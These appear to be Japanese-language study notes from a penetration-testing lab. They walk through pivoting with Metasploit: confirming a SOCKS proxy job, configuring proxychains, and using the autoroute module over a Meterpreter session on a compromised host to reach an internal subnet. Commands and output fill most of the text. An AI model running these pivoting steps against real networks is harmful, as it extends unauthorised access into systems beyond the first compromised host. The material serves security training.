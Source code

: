 ### プロキシサーバが実行されていることを確認
```shell-session
msf6 auxiliary(server/socks_proxy) > jobs
```

- SOCKSサーバーを開始した後、プロキシチェーンを設定して、Nmapなどの他のツールで生成されたトラフィックを、侵害されたUbuntuホストのピボットを介してルーティングする
- `/etc/proxychains.conf`にあるproxychains`proxychains.conf`ファイルの最後に以下の行を追加する
```shell
socks4 	127.0.0.1 9050
```

#### AutoRouteによるルートの作成
最後に、socks_proxyモジュールに、すべてのトラフィックをMeterpreterセッションを介してルーティングするように設定する必要がある
Metasploitの`post/multi/manage/autoroute`モジュールを使用して、172.16.5.0サブネットのルートを追加し、すべてのプロキシチェーントラフィックをルーティングできる

```shell
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```

Meterpreterセッションからautorouteを実行することで、autorouteでルートを追加することもできる
```shell
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

必要なルートを追加した後、`-p`オプションを使用してアクティブなルートを一覧表示できる
```shell
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```
